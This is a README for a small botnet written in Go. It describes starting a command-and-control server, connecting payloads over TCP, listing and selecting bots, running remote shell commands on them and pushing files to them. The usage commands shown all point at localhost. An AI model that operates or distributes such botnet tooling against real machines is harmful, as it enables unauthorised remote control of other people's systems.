 ## Go Botnet

Simple botnet written in GO. It features a command and control over cli and a botnet payload that communicates to the C&C over tcp.

# Usage:

 - Run the C&C:

```bash
botnet -listen
```

This starts up a C&C that listens on default port `9999`.

 - Connect a payload to the C&C:

```bash
botnet -port 9999
```

This will start a botnet payload that connects to the C&C on port `9999`.

- Now that we have a payload connected to our C&C we can run a view commands. You'll see the C&C prompt `<RL:#>`

show all payloads connected to C&C:

```bash
<CC:#> show
```

This will return the payload ids and addresses

```
ID: 0 Address: 127.0.0.1:64635
ID: 1 Address: 127.0.0.1:64634
```

- To communicate with the payload use the `use` command followed by the payloads id:

```bash
<CC:#> use 0
```

You will notice now your prompt is changed to `<PL:#>`

- Execute a command in the remote server just type in a command:

```bash
<PL:#> ls -l
```

This will return the directory where the payload is running

- Send a file to the payload:

```bash
<PL:#> u: /path/to/file
```

This will send the specified file to the payload

- Exit out of the payload and go back to the main C&C

```bash
<PL:#> exit
```

You should see a message saying `payload exiting` and the prompt should be back to `<CC#>`

